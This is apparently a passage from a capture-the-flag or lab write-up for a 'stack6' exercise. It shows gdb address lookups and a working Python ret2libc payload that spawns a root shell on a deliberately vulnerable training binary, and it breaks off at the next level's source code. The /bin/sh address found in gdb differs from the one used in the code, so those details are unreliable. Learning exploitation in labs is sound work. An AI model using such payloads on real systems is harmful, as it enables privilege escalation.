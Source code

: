 Our goal is to similar to previous one but this time the return pointer should not be in 0xbf000000 address space(stack)

To bypass the NX stack protection, we will use the ret2libc technique. 

Instead of injecting shellcode directly, we overwrite the return address to call the system function in the libc library, passing /bin/sh as an argument to spawn a shell

By trial and error, we determine that the offset to the return address is 80 bytes      

To find the address of system in libc, we use gdb

> (gdb) p system

The output will be $1 = {\<text variable, no debug info\>} 0xb7ecffb0 <\_\_libc\_system\>

To find exit function adress

> (gdb) p exit

The output will be $2 = {\<text variable, no debug info\>} 0xb7ec60c0 <\*\_\_GI\_exit>  

To find the address of /bin/sh, we can pass it as part of our input and find it on the stack

>(gdb) x/s 0xbffff7f8

The output will be 0xbffff7f8: "/bin/sh" 

Let us write a python code(exploit.py) and pass the input into the programme:

    import struct

  

    padding = b'A' \* 80

    system\_addr = struct.pack("<I", 0xb7ecffb0)  

    exit\_addr = struct.pack("<I", 0xb7ec60c0)  

    bin\_sh\_addr = struct.pack("<I", 0xb7fb63f8)  

  

    payload = padding + system\_addr + exit\_addr + bin\_sh\_addr + b"/usr/bin/id"

  

    print(payload.decode('latin-1')) 

> $ python3 exploit.py | ./stack6

We will receive output on entering the prompt id "uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)"

## stack 7:

  

SOURCE CODE:

              #include <stdlib.h>

              #include <unistd.h>

              #include <stdio.h>
